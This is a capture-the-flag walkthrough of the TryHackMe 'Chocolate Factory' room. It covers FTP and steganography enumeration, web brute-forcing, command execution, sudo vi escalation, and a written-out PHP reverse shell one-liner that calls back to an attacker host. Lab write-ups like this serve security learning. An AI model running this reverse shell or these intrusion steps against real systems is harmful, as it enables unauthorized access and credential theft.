




# Chocolate Factory
[Back to Tryhackme page](../index.md)

---

## Enumeration
Starting with enumeration of machine using nmap.

We get to see many open ports but let's focus on important once first.
FTP , SSH and HTTP are common and important ports so let's investigate them first.

FTP allows anonymous logins to let's check that.

---

## FTP 
Logging into FTP as anonymous gives us image name "gum_room.jpg" .
Using steg tools we can check if there is any hidden file under it or any clue in metadata of image.

Using steghide to check if any hidden file present under image.

b64.txt is hidden file here. Let's extract it.

Reading file clearly shows this is encoded in base64 so let's decode it first.

This file is clearly shadow file of system.

---

## HTTP 

index.html file shows login system so let's try bruteforcing into it using charlie as username. Let's also check for other interesting directories.

home.php seems interesting one.

It gives us command execution capacity.Using simple "cat validate.php | grep password" we get password.

Logging into charlie again redirects us to home.php so HTTP is enumeration is complete.

We can get reverse shell through command execution so let's do that!

---

## Reverse shell
We get reverse shell by executing this command "php -r '$sock=fsockopen("ip",port);exec("sh <&3 >&3 2>&3");'" 

Got the key !
Let's check home directories for users. There is only one user charlie. 

teleport has rsa private key so we can now get ssh access to charlie. 

There is no password on privte key.

---

## User flag
We got user flag by logging into charlie account.

---

## Root flag
Charlie has sudo access for vi. Let's check gtfobins for possible explotations.

By running this command we get root shell. There is root.py in root directory which will give us flag. It requires binary key we got earlier.

Got root flag!

---

### Sources :

- [Tryhackme room chocolate factory](https://tryhackme.com/room/chocolatefactory)